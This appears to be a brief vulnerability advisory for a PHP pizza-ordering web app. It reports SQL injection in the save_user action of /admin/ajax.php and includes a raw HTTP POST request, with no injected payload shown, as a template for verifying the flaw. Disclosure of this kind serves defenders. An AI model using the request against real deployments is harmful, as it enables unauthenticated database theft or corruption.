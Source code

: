 

The Online Pizza Ordering System has an SQL injection vulnerability, which can be exploited by an attacker to steal information or corrupt a database without authentication.



Source code address：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html



The vulnerability is located in save_user in the /admin/ajax.php file, and you can see in the code snippet that the parameters passed in are concatenated directly with the SQL statement.

![image-20250326232453634](images/image-20250326232453634.png)



Vulnerability verification：

```
POST /php-opos/admin/ajax.php?action=save_user HTTP/1.1
Host: 192.168.80.152
Content-Length: 54
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

id=&name=12345&username=admin123&password=admin&type=1
```

 ![image-20250326232430266](images/image-20250326232430266.png)



































